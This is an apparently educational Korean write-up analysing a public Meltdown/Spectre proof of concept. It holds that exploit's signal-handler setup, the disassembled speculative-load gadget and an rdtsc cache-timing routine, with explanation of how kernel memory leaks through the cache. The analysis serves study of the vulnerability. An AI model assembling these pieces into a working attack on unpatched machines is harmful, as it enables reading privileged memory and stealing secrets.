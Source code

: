 ## PoC Analysis

\* `https://github.com/mniip/spectre-meltdown-poc`의 PoC를 분석했습니다. 아래 내용은 PoC 코드와 함께 보시는 것을 추천드립니다.

```c
#ifndef POISON
	struct sigaction sa;
	sa.sa_sigaction = signal_action;
	sigemptyset(&sa.sa_mask);
	sa.sa_flags = SA_NODEFER | SA_SIGINFO;
	sigaction(SIGSEGV, &sa, NULL);
#endif
```

커널메모리를 읽으려고 할 때 발생하는 Exception으로 인해 프로세스가 종료 되면 Exploit이 불가능합니다. 프로세스의 종료를 막기 위해 `sigaction`을 걸어줍니다.

```assembly
Dump of assembler code for function stall_speculate:
   0x0000000000400b84 <+0>:	mfence 
   0x0000000000400b87 <+3>:	call   0x400b96 <stall_speculate+18>
   0x0000000000400b8c <+8>:	movzx  eax,BYTE PTR [rdi]
   0x0000000000400b8f <+11>:	shl    eax,0xc
   0x0000000000400b92 <+14>:	mov    rcx,QWORD PTR [rsi+rax*1]
   0x0000000000400b96 <+18>:	xorps  xmm0,xmm0
   0x0000000000400b99 <+21>:	aesimc xmm0,xmm0
   0x0000000000400b9e <+26>:	aesimc xmm0,xmm0
   0x0000000000400ba3 <+31>:	aesimc xmm0,xmm0
   0x0000000000400ba8 <+36>:	aesimc xmm0,xmm0
   0x0000000000400bad <+41>:	movd   eax,xmm0
   0x0000000000400bb1 <+45>:	lea    rsp,[rsp+rax*1+0x8]
   0x0000000000400bb6 <+50>:	ret    
End of assembler dump.
```

gdb를 통해 디버깅 해보면 `main`, `collect_stats(&ch, addr)`를 거쳐  `stall_speculate(addr, ch->mapping)` 함수로 진입하는 것을 확인할 수 있습니다. CPU 입장에서 보면 `call   0x400b96 <stall_speculate+18>`이 실행되는 동시에 `movzx  eax,BYTE PTR [rdi]`를 포함하여 아래의 코드들이 동시에 실행됩니다. 그러면서 `QWORD PTR [rsi+rax*1]`가 캐시 메모리에 올려집니다.(`QWORD PTR [rsi+rax*1]`는 `ch->mapping`을 의미합니다.)

```c
extern unsigned long long time_read(void const *);
asm(
".section .text\n"
".global time_read\n"
"time_read:\n"
"	mfence\n"
"	lfence\n"
"	rdtsc\n"
"	lfence\n"
"	movq %rax, %rcx\n"
"	movb (%rdi), %al\n"
"	lfence\n"
"	rdtsc\n"
"	subq %rcx, %rax\n"
"	ret\n"
);
```
